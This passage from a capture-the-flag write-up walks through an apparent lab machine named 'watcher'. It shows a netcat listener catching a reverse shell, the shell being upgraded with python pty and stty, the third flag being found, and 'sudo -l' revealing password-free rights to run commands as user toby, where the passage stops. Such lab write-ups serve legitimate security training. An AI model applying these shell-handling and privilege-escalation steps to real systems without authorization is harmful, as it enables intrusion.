  ```terminal
/bin/sh: 0: can't access tty; job control turned off                                                                                                                                                                                                                                                               
$ python3 -c 'import pty;pty.spawn("/bin/bash")'                                                                                                             
www-data@watcher:/home$ export TERM=xterm                                                                                                                    
export TERM=xterm
www-data@watcher:/home$ ^Z
zsh: suspended  nc -lnvp 1234

┌──(sirius㉿kali)-[~]
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 1234

www-data@watcher:/home$

```
## Flag 3

Great, we got a shell, i have executed some commands to get a functional shell:

 ```terminal
 [target machine] python3 -c 'import pty;pty.spawn("/bin/bash")'

 [target machine] export TERM=xterm

 [target machine] ctrl+z

 [attacker machine] stty raw -echo;fg
 ```
 We can find our third flag here:
 ```terminal
 www-data@watcher:/var/www/html/more_secrets_a9f10a$ ls                                                                                                       
flag_3.txt
 ```

# **Privilege Escalation**
## Flag 4

It's now to upgrade from www-data to another user, let's check what we can do with our current user:
```terminal
www-data@watcher:/$ sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```
Apparently, we can execute any command as `toby`. We can use that to change our user to toby:
